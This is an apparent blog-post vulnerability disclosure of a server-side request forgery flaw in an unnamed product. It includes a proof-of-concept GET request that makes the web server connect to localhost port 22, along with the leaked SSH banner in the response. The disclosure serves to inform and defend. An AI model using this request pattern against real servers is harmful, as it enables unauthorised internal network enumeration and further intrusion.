 ```yaml
---
layout: post
title:  "Server-side request forgery (SSRF)"
date:   2023-04-05 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: awaiting assignment
* CWE ID: CWE-918

... products server-side request forgery

Summary:

... products is vulnerable to server-side request forgery (SSRF). This may allow an unauthenticated attacker to send unauthorized requests from the system, potentially leading to network enumeration or facilitating other attacks.

Product:

...

Version:

...

Proof-of-Concept:

Web server is externally accessible; and permitted to invoke connections to internal hosts. The HTTP GET Request can be abused by unauthenticated attackers to cause the web server to connect to an arbitrary TCP port of an arbitrary host.

Responses returned are fairly verbose and can be used to infer whether a service is listening on the port specified.

Below is an example request to an localhost with open port:

Request:

GET http://localhost:22/ HTTP/1.1
Host: [redacted]
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close

Response:

HTTP/1.1 200 OK
Date: Wed, 12 Oct 2022 01:47:04 GMT
Connection: close
Content-Type: text/plain
Content-Length: 38

SSH-2.0-OpenSSH_5.3Protocol mismatch.
